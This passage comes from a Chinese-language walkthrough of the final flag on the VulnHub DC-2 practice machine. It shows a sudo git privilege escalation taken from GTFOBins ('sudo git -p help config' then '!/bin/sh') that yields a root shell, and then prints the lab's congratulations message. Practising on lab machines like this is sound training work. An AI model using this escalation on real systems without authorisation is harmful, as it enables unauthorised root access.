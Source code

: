 这里提到了 git,那么就用它提权

---

# flag5

在 https://gtfobins.github.io/gtfobins/git/ 找到 git 提权的语法
```
sudo git -p help config
!/bin/sh
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/13.png)

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

```bash
cd
cat final-flag.txt
```
```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

